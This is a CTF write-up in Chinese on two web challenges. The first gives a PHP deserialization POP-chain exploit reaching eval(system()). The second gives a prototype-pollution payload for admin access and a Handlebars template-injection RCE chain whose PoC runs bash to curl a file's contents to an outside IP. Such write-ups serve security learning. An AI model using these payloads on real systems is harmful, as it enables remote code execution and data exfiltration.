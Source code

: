 ## Web
## PHP_unserialize_pro
源码
```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }
 
    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }
 
    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }
 
    if(isset($_GET['data']))
        unserialize($_GET['data']);
    else
        highlight_file(__FILE__);
?>
```

思路
`__construct() -> __destruct() -> __toSrting() -> __invoke()`

exp
```PHP
<?php
	class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }
 
    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }
 
    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }

    $a = new Welcome();
    $a->name = "A_G00d_H4ck3r";
    $a->arg = new H4ck3r();
    $a->arg->func = new G00d();
    $a->arg->func->shell = "system";
    $a->arg->func->cmd = "dir";
    print(serialize($a));
```

### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

[Prototype Pollution in handlebars · CVE-2021-23383 · GitHub Advisory Database](https://github.com/advisories/GHSA-765h-qjxv-5f44)

[Remote Code Execution (RCE) in handlebars | CVE-2021-23369 | Snyk](https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767)

```js
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script> 
<script> 
// compile the template 
var s = ` 
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}} 
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
`; 
var template = Handlebars.compile(s, { 
strict: true 
}); 
// execute the compiled template and print the output to the console console.log(template({})); 
</script>
```

[运行时参数 | Handlebars中文文档 | Handlebars中文网 (handlebarsjs.cn)](https://www.handlebarsjs.cn/api-reference/runtime-options.html#%E6%8E%A7%E5%88%B6%E5%8E%9F%E5%9E%8B%E8%AE%BF%E9%97%AE%E7%9A%84%E9%80%89%E9%A1%B9)

在题目环境中升级到了4.7.7，禁用原本的一些键

![](attachments/Pasted%20image%2020231018093750.png)



对应函数[handlebars.js/lib/handlebars/internal/proto-access.js at 1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89 · handlebars-lang/handlebars.js (github.com)](https://github.com/handlebars-lang/handlebars.js/blob/1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89/lib/handlebars/internal/proto-access.js#L27)

```JS
export function createProtoAccessControl(runtimeOptions) {
  let defaultMethodWhiteList = Object.create(null);
  defaultMethodWhiteList['constructor'] = false;
  defaultMethodWhiteList['__defineGetter__'] = false;
  defaultMethodWhiteList['__defineSetter__'] = false;
  defaultMethodWhiteList['__lookupGetter__'] = false;

  let defaultPropertyWhiteList = Object.create(null);
  // eslint-disable-next-line no-proto
  defaultPropertyWhiteList['__proto__'] = false;

  return {
    properties: {
      whitelist: createNewLookupObject(
        defaultPropertyWhiteList,
        runtimeOptions.allowedProtoProperties
      ),
      defaultValue: runtimeOptions.allowProtoPropertiesByDefault,
    },
    methods: {
      whitelist: createNewLookupObject(
        defaultMethodWhiteList,
        runtimeOptions.allowedProtoMethods
      ),
      defaultValue: runtimeOptions.allowProtoMethodsByDefault,
    },
  };
}
```

对`allowedProtoMethods`做污染设置为true

```JS
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push \"eval('process.binding(\\'spawn_sync\\').spawn({file:\\'/bin/bash\\',args: [\\'/bin/bash\\',\\'-c\\',\\'curl http://49.232.206.37:23456/`cat /flag`\\'],stdio: [{type:\\'pipe\\',readable:!0,writable:!1},{type:\\'pipe\\',readable:!1,writable:!0},{type:\\'pipe\\',readable:!1,writable:!0}]});');\")}}
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
```

poc

```json
{"submit":[{"__proto__":{"user":{"id":"c23d123d-e123-444e-a69f-9e69b285473e","username":"admin"},"allowedProtoMethods":{"__lookupGetter__":true,"constructor":true,"valueOf":true}}},"1"],"style":"{{#with (__lookupGetter__ \"__proto__\")}}{{#with (./constructor.getOwnPropertyDescriptor . \"valueOf\")}}{{#with ../constructor.prototype}}{{../../constructor.defineProperty . \"hasOwnProperty\" ..}}{{/with}}{{/with}}{{/with}}{{#with \"constructor\"}}{{#with split}}{{pop (push \"eval('process.binding(\\'spawn_sync\\').spawn({file:\\'/bin/bash\\',args: [\\'/bin/bash\\',\\'-c\\',\\'curl http://49.232.206.37:23456/`cat /flag`\\'],stdio: [{type:\\'pipe\\',readable:!0,writable:!1},{type:\\'pipe\\',readable:!1,writable:!0},{type:\\'pipe\\',readable:!1,writable:!0}]});');\")}}{{#with .}}{{#with (concat (lookup join (slice 0 1)))}}{{#each (slice 2 3)}}{{#with (apply 0 ../..)}}{{.}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}"}
```


![](attachments/Pasted%20image%2020231018110925.png)